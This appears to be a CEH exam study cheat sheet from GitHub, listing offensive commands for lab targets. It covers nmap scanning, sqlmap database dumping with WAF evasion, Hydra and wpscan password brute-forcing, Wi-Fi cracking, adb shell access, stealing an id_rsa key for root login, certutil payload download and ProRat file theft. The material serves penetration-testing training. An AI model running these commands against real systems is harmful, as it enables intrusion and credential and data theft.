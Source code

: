 # CEH-Notes
CEH Notes
CEH-Notes
sudo netdiscover -r 192.168.1.0/24

Resource Sharing
Wget:
Single file: wget http://192.168.0.101:8000/filename -O C:\path\to\destination\filename
All files: Navigate to PasteFolder > wget -r -np -nd -A "*" http://192.168.0.101:8000/folder/

---------------------------------------------------------------------------------

SCP:
Start ssh service.
Linux: service ssh start
Windows: Settings>Apps>Optional Features>Add Feature>Install OpenSSH Server | Powershell:Start-Service sshd
File: scp /path/to/local/file username@192.168.0.104:/path/to/destination
Folder: scp -r /path/to/local/folder username@192.168.0.104:/path/to/destination/folder

---------------------------------------------------------------------------------

Python HTTP Server
cd OpenSharingFolder
python3 -m http.server 8000
Open VM, navigate to http://192.168.0.101:8000
certutil -urlcache -f http://192.168.0.101:8000/file.exe file.exe | Windows Transfer

---------------------------------------------------------------------------------

NMAP
Best
nmap -sn 192.168.1.0/24
nmap -A -T4 -p- 192.168.1.0/24
nmap -sC -sV -Pn -T4 -vv -p- 192.168.1.0/24
nmap --script vuln -Pn -T4 -p- 192.168.1.0/24

---------------------------------------------------------------------------------

Firewall/IDS, if opened
nmap -sS -v -p- 192.168.1.0/24
nmap -f -p- 192.168.1.0/24

UDP Scan
nmap -sU --top-ports 25 -p- 192.168.1.0/24

nmap --script smb-os-discovery.nse IP

---------------------------------------------------------------------------------

SQLMap
sqlmap -r req.txt -dbs
sqlmap -r req.txt -D DBName --tables
sqlmap -r req.txt -D DBName --tables --columns
sqlmap -r req.txt -D DBName --dump
WAF: sqlmap -u "https://target.com" --dbs --level=5 --risk=3 --user-agent -v3 --tamper="between,randomcase,space2comment" --batch --dump

---------------------------------------------------------------------------------

WordPress
WP SCAN
wpscan --url http://192.168.0.1
wpscan --url http://192.168.0.1 -e u #User Enum
wpscan --url http://192.168.0.1 --enumerate u
wpscan --url http://192.168.0.1 --usernames /home/user.txt --passwords(-P) /home/pass.txt
wpscan --url http://192.168.0.1 -u john --passwords /home/pass.txt

---------------------------------------------------------------------------------

METASPLOIT
msfconsole :
use auxilliary/scanner/http/wordpress_login_enum
show options
set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
set RHOSTS 192.168.0.1 (target ip)
set RPORT 8080 (target port)
set TARGETURI http://192.168.0.1:8080/
set USERNAME admin

---------------------------------------------------------------------------------

HYDRA
hydra -L /home/user.txt -P /home/pass.txt 192.168.0.1 ftp
hydra -L /home/user.txt -P /home/pass.txt ftp://192.168.0.1
hydra -L /home/user.txt -P /home/pass.txt 192.168.0.1 ssh
hydra -L /home/user.txt -P /home/pass.txt ssh://192.168.0.1
hydra -L usernames.txt -P passwords.txt -s 25 -vV 192.168.0.104 smtp

---------------------------------------------------------------------------------

STEGANOGRAPHY
SNOW (Windows)
Hide:SNOW -C -m "Hey Hacker" -p "hack" abc.txt abcd.txt
Extract:SNOW -C -p "hack" abcd.txt

OpenStego (Windows)
Click on Extract Data
Select Stego file
Select output folder
Enter password & CLick on Extract Data Button

StegHide (Linux)
Hide: steghide embed -cf cover.png -ef secret.txt -p 1234
stegcrack Extract: steghide extract -sf steg.file
Enter Password & Hit Enter

Stegcracker (Linux)
stegcracker steg.file

---------------------------------------------------------------------------------

CRYPTOGRAPHY
HashCalc (Windows)
Open File
Click on Calculate Button

VeraCrypt (Windows)
Select any Volume A,B,D,E
Select Encrypted Folder
Click on mount button
Enter Password
Open File Manager
Open Newly created drive and open secret.txt file

Crack Hash
Hash Analyzer
Hashes
CrackStation

BCTextEncoder (Windows)
Paste Hash Value
Click on Decode
Enter Password

Cryptool (Windows)
RC4:
Open File
Encrypt/Decrypt > Symmetric(modern) > RC4
Enter bit length (EX:14)
Click on Decrypt

DES(ECB):
Open File
Encrypt/Decrypt > Symmetric(modern) > DES(ECB)
Select bit length if given in qus
Click on Decrypt

---------------------------------------------------------------------------------

WireShark
For credentials: http.request.method == POST
For DoS Attack:
Statistics > IPv4 Statistics > Source and Destination Address
Apply Filter:- tcp.flags.syn == 1 and tcp.flags.ack == 0

---------------------------------------------------------------------------------

Android
Normal
nmap ip -sV -p 5555
adb connect 192.168.0.1:5555
adb shell
cd sdcard
cat secret.txt

---------------------------------------------------------------------------------

ELF
cd sdcard/scan
sudo adb pull /sdcard/scan/
ent evil.elf
sha384sum evil.elf

---------------------------------------------------------------------------------

EOL
nmap -Pn --script vuln 192.168.0.1
Copy the CVE and Paste it on Google
Check the severity | For Ex: 10

---------------------------------------------------------------------------------


FQDN
nmap -p 389 -sV -iL ip.list
nmap -p389 -sV 192.168.0.1
FQDN: DC.pentester.team

---------------------------------------------------------------------------------


WIFI
aircrack-ng cap.file
aircrak-ng -w wordlist.txt cap.file
aircrak-ng -b 2a:25:zd:54:48:as -w wordlist.txt cap.file
aircrak-ng -a2 -b 2a:25:zd:54:48:as -w wordlist.txt cap.file

---------------------------------------------------------------------------------


Privilege Escalation
Login in ssh
sudo -l
sudo -i

id_rsa
su user
cd .ssh
ls
cat id_rsa & Copy it
Paste on host Machine
chmod 600 id_rsa
ssh root@192.168.0.1 -i id_rsa -p 22

---------------------------------------------------------------------------------


Malware
ProRat
Enter Victim IP
Click on connect
Enter Password
Click on Search Files "Searching for *.txt"
Click on File Manager
Move to Secret Directory & Download the secret file

Static Analysis ELF with DIE
Open Die
Upload File
Click on File Info
